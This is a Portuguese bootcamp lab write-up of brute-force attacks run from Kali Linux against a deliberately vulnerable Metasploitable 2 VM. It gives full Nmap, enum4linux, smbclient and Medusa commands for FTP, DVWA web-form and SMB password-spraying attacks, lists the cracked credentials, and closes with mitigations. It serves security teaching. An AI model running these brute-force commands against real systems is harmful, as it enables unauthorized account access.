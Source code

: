 # BootcampDIO-SantanderCiberseguranca2025
Simulação de ataque brute force utilizando Kali Linux e Metasploitable 2<br>
<br>
Kali Linux e Metasploitable 2 configurados na mesma rede (192.168.1.0/24) para se comunicarem (rodar o comando "ip a" ou "ifconfig" nas duas VMs para obter o IP de cada VM)<br>
IP Kali Linux: 192.168.1.4<br>
IP Metasploitable 2: 192.168.1.5<br>
<br>
ping feito do Kali Linux para o Metasploitable 2 com o objetivo de confirmar a conexão entre as VMs<br>Comando: ping -c 4 192.168.1.5 
<br>
1 etapa: enumeração de portas abertas | ferramenta usada: Nmap 7.95<br>Objetivo: identificar porta FTP aberta<br>Comando: nmap -sV -p 21,22,80,445,139 192.168.1.5
<br>
Portas abertas:<br>
21 - serviço: FTP - versão: vsftpd 2.3.4<br>
22 - serviço: SSH - versão: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)<br>
80 - serviço: HTTP - versão: Apach httpd 2.2.8<br>
139 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X <br>
445 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X <br>
<br>
Identificado que a porta FTP esta aberta usa-se o comando: "ftp (IP da VM Metasploitable)" para confirmar que o serviço esta ativo 
<br>
2 etapa: ataque brute force | ferramenta usada: Medusa v2.3
<br>
Criação de wordlists:
<br>
Para usernames: arquivo usernames.txt contendo as seguintes palavras: msfadmin, user, service, root, admin, test, guest, info, adm, administrator, ftp, admin123, 123admin e qwerty
<br>
Comando: echo -e 'msfadmin\nuser\nservice\nroot\nadmin\ntest\nguest\ninfo\nadm\nadministrator\nftp\nadmin123\n123admin\nqwerty' > usernames.txt 
<br>
Para senhas: arquivo pass.txt com as seguintes palavras: 123456, password, qwerty, msfadmin, admin, Welcome123, admin123, root, 123admin, pass123<br>
Comando: echo -e '123456\npassword\nqwerty\nmsfadmin\nadmin\nWelcome123\nadmin123\nroot\n123admin\npass123' > pass.txt<br>
<br>
Comando brute force: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M ftp -t 10<br>
Resultado - usuario: msfadmin | senha: msfadmin<br>
<br>
- Brute force em formulário de login em sistema web (DVWA) -<br>
<br>
Comando:<br>
medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M http \<br>
-m PAGE:'/dvwa/login.php' \<br>
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \<br>
-m 'FAIL=Login failed' -t 10<br>
<br>
Resultado - usuario: admin | senha: password <br>
<br>
- Ataque em cadeia, enumeração smb + password spraying -<br>
<br>
Enumeração de usuários usando Enum4Linux:<br>
Comando: enum4linux -a 192.168.1.5 | tee enum4_output.txt <br>
<br>
Password spraying usando Medusa:<br>
Comando: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M smbnt -t 2 -T 50<br>
<br>
Resultado - usuario: msfadmin | senha: msfadmin <br>
<br>
Verificando acesso ao smb:<br>
Comando: smbclient -L //192.168.1.5 -U msfadmin <br>
<br>
- Vulnerabilidades: senhas fracas e iguais ao campo user<br>
- Soluções: Implementar 2FA/MFA e recomendar ao usuário que utilize senhas fortes, bloqueio de IPs para múltiplas tentativas de logins, monitoramento de logs e segmentação da rede.<br>
- Recomendações para criação de senhas:<br>
mínimo de 12 caracteres, utlizar letras maiúsculas (A-Z) e minúsculas (a-z), utlizar símbolos (!, @, #, $, %, &, *), evitar informações pessoais e organizacionais.<br>





